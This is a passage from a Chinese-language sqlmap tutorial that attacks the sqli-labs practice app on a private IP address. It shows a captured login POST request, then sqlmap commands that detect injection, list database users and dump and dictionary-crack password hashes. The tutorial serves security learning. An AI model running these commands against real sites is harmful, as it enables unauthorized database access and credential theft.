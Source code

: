   
       POST /sqli/Less-11/ HTTP/1.1

1.  Host: 192.168.10.1
    
2.  User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0
    
3.  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    
4.  Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    
5.  Content-Type: application/x-www-form-urlencoded
    
6.  Content-Length: 38
    
7.  Referer: http://192.168.10.1/sqli/Less-11/
    
8.  Connection: close
    
9.  Upgrade-Insecure-Requests: 1
    
10.  uname=admin&passwd=admin&submit=Submit
    

然后我们可以指定这个数据包进行探测  

sqlmap -r post.txt  #探测 post.txt 文件中的 http 数据包是否存在 sql 注入漏洞  

他也会和我们进行交互，询问我们，这里就不一一解释了 

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUzzjVFsG9PkNiciaQCBojGpvibdyQTCHPE4KmwGudZ4urFFUV0wra6M0WRA/640?wx_fmt=png)

可以看到，已经探测到 uname 参数存在漏洞了，问我们是否还想探测其他参数，我们选择的 y ，它检测到 passwd 也存在漏洞了，问我们是否还想探测其他参数，我们选择 n

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUzHRsFpPUwWeynE5SlTYUR9EbV76nEmjtWZKCuiawhTYUEYNo61siahpAw/640?wx_fmt=png)

然后会让我们选择，在后续的测试中，是选择 uname 这个参数还是 passwd 这个参数作为漏洞，随便选择一个就好了。

查看数据库的用户  

**对于不用登录的网站**，直接指定其 URL  

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users #查看数据库的所有用户
```

### ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUzfAfAVqk0nEsno0jHUGVfxx5Whiax2icpdcVmBCPfosII3kQfRJcMxctA/640?wx_fmt=png)

查看数据库下所有用户名密码  

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords #查看数据库用户名的密码
```

第一处询问我们是否保存密码的 hash 值为文件，我们不保存。第二处问我们是否使用 sqlmap 自带的字典进行爆破，我们选择 y，可以看出把密码爆破出来了，root 用户的密码也为 root。如果这里爆破不出来，我们可以拿 hash 值去字典更强大的地方爆破

### ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUzK36UzwT9icymicNIrYrO6eqqrGnPMibSWP8YaIZFsmah9SrIUXjTXaB4g/640?wx_fmt=png)
